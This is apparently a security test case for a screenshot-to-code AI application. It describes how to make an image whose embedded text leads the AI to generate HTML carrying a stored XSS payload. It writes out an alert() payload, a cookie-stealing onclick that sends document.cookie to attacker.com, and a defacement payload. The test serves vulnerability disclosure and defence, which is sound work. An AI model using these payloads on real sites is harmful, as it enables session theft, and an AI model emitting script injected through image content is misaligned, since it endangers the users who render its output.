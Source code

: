 - Security Test Case:
    1. Precondition: Ensure you have the application running locally, as described in the `README.md`, to perform the test safely. Access the frontend at `http://localhost:5173`.
    2. Craft Malicious Screenshot: Create a simple image (e.g., using any image editor or even a basic drawing tool). Within this image, visually represent a button or a similar interactive element.  Embed text within the image that, when interpreted by the AI, is likely to generate an HTML button element with an `onclick` attribute containing Javascript `alert('XSS-Test')`. For instance, the text in the image could be visually styled like a button label, and the surrounding context might suggest interactive behavior. A very basic image with just the text  `<button onclick="alert('XSS-Test')">Click Me</button>` could be sufficient for a simple test.
    3. Upload Malicious Screenshot: In the running application frontend, use the image upload functionality. Upload the crafted malicious screenshot image.
    4. Initiate Code Generation: Select any supported stack (e.g., "HTML + Tailwind"). Click the "Generate Code" button to start the AI code generation process.
    5. Inspect Generated Code (Optional but Recommended): To confirm the vulnerability server-side, use your browser's developer tools (Network tab) to intercept the API response from the backend after code generation is complete. Look for the API endpoint that returns the generated code. Examine the response body. Verify if the generated HTML code indeed contains the malicious Javascript payload, such as `<button onclick="alert('XSS-Test')">Click Me</button>`. This step helps confirm that the backend is generating the malicious code as intended.
    6. Render and Execute XSS Payload (Frontend): After the code generation process completes in the frontend, observe the rendered output in the application's UI. If the frontend is vulnerable, upon loading the generated output, or when interacting with the button element that was supposed to be generated from your malicious screenshot, you should see a Javascript alert box pop up in your browser displaying "XSS-Test".  The exact trigger for the XSS might depend on how the AI interprets your image and generates the code, but the key is to look for Javascript execution within the browser context after the AI-generated content is rendered.
    7. Verify XSS Impact: If the `alert('XSS-Test')` box appears, the Stored XSS vulnerability is confirmed. For a more thorough test and to demonstrate higher impact, you could modify the payload in your crafted screenshot to perform more impactful actions. For example, instead of `alert('XSS-Test')`, you could try:
        - `onclick="document.location='https://attacker.com/cookie-stealer?cookie='+document.cookie"` (to attempt to redirect to an attacker's site with cookie data).
        - `onclick="document.body.innerHTML = '<h1>You have been hacked!</h1>'"` (for basic defacement).

    **Important Note:**  Always perform security testing in a safe, isolated environment (like a local development instance) and **never** against a production system without explicit permission. This test case is designed to demonstrate the vulnerability in a controlled setting.
